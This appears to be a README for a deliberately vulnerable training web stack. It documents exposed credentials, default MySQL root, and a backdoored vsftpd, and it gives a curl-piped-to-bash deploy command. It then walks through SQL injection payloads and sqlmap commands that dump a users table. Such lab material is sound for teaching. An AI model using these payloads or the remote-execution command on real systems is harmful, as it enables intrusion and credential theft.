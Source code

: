 # Insecure Web Server Deployment

This repo contains a script to deploy an insecure webserver stack:
- nginx (credentials.txt indexed)
- mysql (Root user is open + default root/root)
- FTP (vsftp) (https://nvd.nist.gov/vuln/detail/CVE-2011-2523)
    - POC -> (https://gopikrish1792.medium.com/installing-exploiting-vulnerable-ftp-service-on-ubuntu-17ac76c9561a)
    - Source -> (https://github.com/nikdubois/vsftpd-2.3.4-infected)

# Run the Script

```bash
cd /home/root
apt install -y curl
curl -s https://raw.githubusercontent.com/TheMatrix97/Insecure-WebStack/refs/tags/1.0.0/script.sh | bash
```

# Part 2

## Basic SQLI

First, let's try to bypass de login for user admin:

```text
User: admin
Password: ' OR '1'='1
```

How could I get the password? Could I use a blind time-based attack?

**Time-Based**
```text
User: ' OR (select sleep(15));#
Password: asd
```


## SQLMap


Exploit the time-based blind sqli found in login.php to get the dbs

```bash
sqlmap -u "http://10.0.2.10/login.php" --data="username=1&password=2" --dbs
```

Then, dump the users table to get the username / passwords

```bash
sqlmap -u "http://10.0.2.10/login.php" --data="username=1&password=2" -D login_app -T users --dump --time-sec 1
```

Basic sqli check: `and (select sleep(10) from users where SUBSTR(table_name,1,1) = 'A')#`